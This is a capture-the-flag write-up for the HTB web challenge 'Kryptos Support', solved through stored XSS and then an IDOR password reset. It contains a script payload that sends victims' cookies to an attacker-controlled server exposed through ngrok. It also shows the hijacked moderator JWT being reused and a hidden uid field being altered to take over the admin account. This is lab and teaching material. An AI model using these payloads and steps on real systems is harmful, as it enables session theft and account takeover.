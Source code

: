 # Kryptos Support
### web | 300 points | 1066 solves

## Description
The secret vault used by the Longhir's planet council, Kryptos, contains some very sensitive state secrets that Virgil and Ramona are after to prove the injustice performed by the commission. Ulysses performed an initial recon at their request and found a support portal for the vault. Can you take a look if you can infiltrate this system?

## First Impressions

The website has a text field to enter any issues for the Kryptos Support Vault. Text fields in the case of CTFs are generally prone to XSS or Cross-Site Scripting, so that is one direction this challenge could go in.

![](images/kryptos-website.png)

The challenge doesn't come with any downloadable files, so we have to rely on the source code in this case. On further inspection of the HTML code, I noticed a link to `/login`. The `BACKEND` button is visible on the website but it is not clickable.

![](images/kryptos-backend.png)

The login page has fields for the username and password. With login fields, SQL injections are also possible. 

![](images/kryptos-login.png)

On further inspection into the javascript code for this page, we see that if the login is successful, it redirects to `/tickets`, which is where the text we enter on the main page is displayed.

![](images/kryptos-loginjs.png)

Typing `/tickets` in the URL directly redirects back to the home page. So the only way we can access the tickets page is through a valid username and password.

## Solution

The main hurdle for this challenge was that it didn't have any downloadable files showing the backend. The backend code helps to know at where exactly the flag is. After trying a SQL injection techniques to no avail, I reached out to one of the admins for a nudge

>a "user" reviews your tickets
>that's CTF slang for there's a browser looking at your input
>that's everything you have to know for the first part of the challenge

This immediately reminded me of a tutorial for another challenge I'd seen, [Toy Workshop from HTB Cyber Santa CTF 2021](https://www.youtube.com/watch?v=20FkOdoMiRU&t=65s). The text entered in the form is reviewed by a JS bot that processes the entry and stores it in a database. The flag was stored as a cookie, and by entering a payload within script tags, the cookie could be retrieved.

We don't know if the flag is in the cookie or not, but we can try to retrieve the cookie and see if we get any important details from it.

The setup to retrieve the cookie was done in a very similar way to the link mentioned above. Firstly, I set up a http server using python, where I can see the cookie.

```bash
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/)
```

Since this is a local server, I need a way to have this server accessible on the internet. Ngrok is a tool that allows us to do this easily.

```bash
ngrok http 80
```

![](images/kryptos-ngrok.png)

The URL next to the `Forwarding` field can be used as the URL in the payload. The payload I used comes from [this link](https://github.com/R0B1NL1N/WebHacking101/blob/master/xss-reflected-steal-cookie.md)

```html
<script>var i=new Image;i.src="http://192.168.0.18:8888/?"+document.cookie;</script>
```

![](images/kryptos-payload.png)

On submitting this payload, our HTTP server shows the following output:

```bash
127.0.0.1 - [19/May/2022 15:43:04] "GET /session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCj9.eyJ1c2VybmFtZSI6Im1vZGVyYXRvciIsInVpZCI6MTAwLCJpYXQi0jE2NTI5NjA10DR9.Y5pT22Ic1jpBeMk1xWOsK8W¡0iKAZfC3uvz9dp8H-ac HTTP/1.1"200 -
```

There is a cookie! And it's stored in the form of a JWT token. After entering this token on [jwt.io](jwt.io), we see that this is a login cookie for a user named `moderator`.

![](images/kryptos-jwt.png)

It took me a while to figure out what to do with this token, until I eventually realized that I could impersonate the `moderator` user by entering this cookie in my browser.

![](images/kryptos-cookie.png)

Once that was done, entering `/tickets` in the URL got me to the tickets page! It worked!

![](images/kryptos-tickets.png)

I expected the flag to be somewhere here, however it looks like the challenge is not done yet.

![](images/kryptos-settings.png)

The settings page allows the user to reset their password. When I sent the ticket earlier, the message `An admin will review your ticket shortly` displayed after submitting. So maybe this page will help get admin access? Let's check the source code.

![](images/kryptos-settingscode.png)

A field named uid, interesting! This is the same field mentioned in the cookie from earlier. So this changes the password depending on the user id. Even though it is a hidden field, we can change the value in the Web Inspector. The `uid` for the `admin` user would usually be either 0 or 1. After trying both, the `uid` of 1 worked!

![](images/kryptos-uid.png)

Then we log in using admin as the username and password, and we have our flag! I found out after the CTF that this an IDOR (Insecure Direct Object Reference) vulnerability, cool stuff!

![](images/kryptos-adminlogin.png)

![](images/kryptos-flag.png)

Flag: `HTB{x55_4nd_id0rs_ar3_fun!!}`